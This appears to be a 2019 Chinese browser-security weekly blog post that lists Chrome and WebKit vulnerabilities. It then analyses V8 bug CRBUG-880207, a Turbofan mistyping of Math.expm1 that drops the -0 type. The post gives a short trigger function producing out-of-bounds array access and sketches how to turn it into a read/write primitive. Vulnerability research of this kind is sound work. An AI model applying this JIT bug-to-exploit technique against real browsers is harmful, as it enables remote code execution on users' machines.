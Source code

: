 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.11.04 - 2019.11.08"
date:   2019-11-08 18:00:00 +520
categories: Browser_Security
---
```


谷歌紧急修复了两个洞，说是已经被黑客组织利用了，大家及时更新
- https://securelist.com/chrome-0-day-exploit-cve-2019-13720-used-in-operation-wizardopium/94866/

以下是这两个漏洞的链接，目前都不可访问，Poc我没搜到，这段时间再跟进一下

CVE-2019-13720: Use-after-free in audio
- https://bugs.chromium.org/p/chromium/issues/detail?id=1019226

CVE-2019-13721: Use-after-free in PDFium
- https://bugs.chromium.org/p/chromium/issues/detail?id=1013868

这几周的UXSS有点多，然而我不懂

WebKit：UXSS
Issue 1914: WebKit: Universal XSS in JSObject::putInlineSlow and JSValue::putToPrimitive
- https://bugs.chromium.org/p/project-zero/issues/detail?id=1914

WebKit：整数溢出导致UXSS和类型混淆

Issue 1919: WebKit: Integer overflow in NodeRareData::m_connectedFrameCount can lead to UXSS and type confusion
- https://bugs.chromium.org/p/project-zero/issues/detail?id=1919

JSC：bailout过程中的一个类型混淆

Issue 1924: JSC: Type confusion during bailout when reconstructing arguments objects
- https://bugs.chromium.org/p/project-zero/issues/detail?id=1924

Chrome：绕过Site Isolation以及本地文件泄露

Issue 1928: Chrome: Site Isolation bypass and local file disclosure via Payment Handler API
- https://bugs.chromium.org/p/project-zero/issues/detail?id=1928

最近把CRBUG-880207分析了一下，感谢JR师傅，宏阳师傅，p4nda师傅，ditto师傅，路遥师傅对我在这个漏洞分析过程遇到问题时的帮助

这个漏洞是因为Turbofan对`Math.expm1`进行JIT优化的时候，未正确评估返回值的类型，漏了`-0`这个类型，在`Typer`的时候，传播了错误的类型信息，Turbofan根据错误的信息去掉了`CheckBound`这个节点，最后获得越界读写，造成了RCE

在`Typer`阶段，会对`Math.expm1`返回如下几个类型，我们可以看到，这里没有`-0`这个类型
```
Type Typer::Visitor::JSCallTyper(Type fun, Typer* t) {
    ...
    switch (function.shared().builtin_function_id()) {
        ...
        case BuiltinFunctionId::kMathAbs:
        case BuiltinFunctionId::kMathExp:
        case BuiltinFunctionId::kMathExpm1:
            return Type::Union(Type::PlainNumber(), Type::NaN(), t->zone());
```

我们来看`Math.expm1`的定义：
- https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Refereance/Global_Objects/Math/expm1

> Math.expm1() 函数返回 E**x - 1, 其中 x 是该函数的参数, E 是自然对数的底数 2.718281828459045
Math.expm1(1)     // 1.7182818284590453
Math.expm1(-38)   // -1
Math.expm1("-38") // -1
Math.expm1("foo") // NaN

那我们传入`-0`会发生什么呢？
```
d8> Math.expm1(-0)
0
```

可以看到终端输出的是`0`，如果我们用`Object.is`来比较呢？
```
d8> Object.is(Math.expm1(-0), -0)
true
d8> Object.is(Math.expm1(-0), 0)
false
```

所以我们可以得到一个结论：`Math.expm1(-0)`得到的结果是`-0`

那么这个结论有什么用呢？

我们结合一开始的优化代码来分析，在对`Math.expm1`进行`Typer`的时候，Turbofan认为这个函数只能返回以下几个类型，这其中并不包含`-0`，`-0`在Turbofan里用`MinusZero`来表示
```
return Type::Union(Type::PlainNumber(), Type::NaN(), t->zone());
```

也就是说：在优化结束之后，会把`Object.is(Math.expm1(-0), -0)`直接折叠为`false`，也就是常量折叠

我们接下来通过跟踪优化过程来分析
```
➜  x64.debug git:(CRBUG-880207) ./d8 --allow-natives-syntax --trace-turbo Poc.js
......
false
```

在`Typer`阶段，注意看红色框框里的内容，我们可以看到`Math.expm1`的`Type`为`PlainNumber | NaN`，这个`Type`不包含`-0`，右边的节点类型是`MinusZero`也就是`-0`，这两个数据传入`SameValue`节点进行比较，这明显是恒不相等的

![IMAGE](/assets/resources/9A6301EE2040F342941B2B4D867CF083.jpg)

所以在`typed lowering`阶段，这三个节点会进行常量折叠为`false`

![IMAGE](/assets/resources/A290C3C2969C67D85B631703F6F52FED.jpg)

所以我们可以看到打印出来的是`false`

漏洞的成因大概就是这样，至于如何利用这里简单讲一下，详细的利用过程正在单独写文章

首先我们利用这个错误的类型推断，去传播错误的类型信息，但是太早被分析出来跟-0比较会被常量折叠，所以我们可以利用逃逸分析这个阶段，代码如下，以下这种方式，就可以防止在逃逸分析前进行常量折叠，然后逃逸分析之后的Simplified Lowering阶段会进行最后一次typing，就会错误的判断这里是一个恒为false的`Type`，之后把这个错误的`Type`传播下去，那么后面数组的存取前的`checkbound`节点就被会优化掉，不太好用的相对地址读写原语Get，然后我们写掉这个数组后面的一个数组长度，一个好用的相对地址读写原语Get！剩下的就是常规利用操作了
```
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let o = {mz: -0};
    let b = Object.is(Math.expm1(x), o.mz);
    return a[b * 1337];
}
```

再次感谢各位师傅们的帮助！
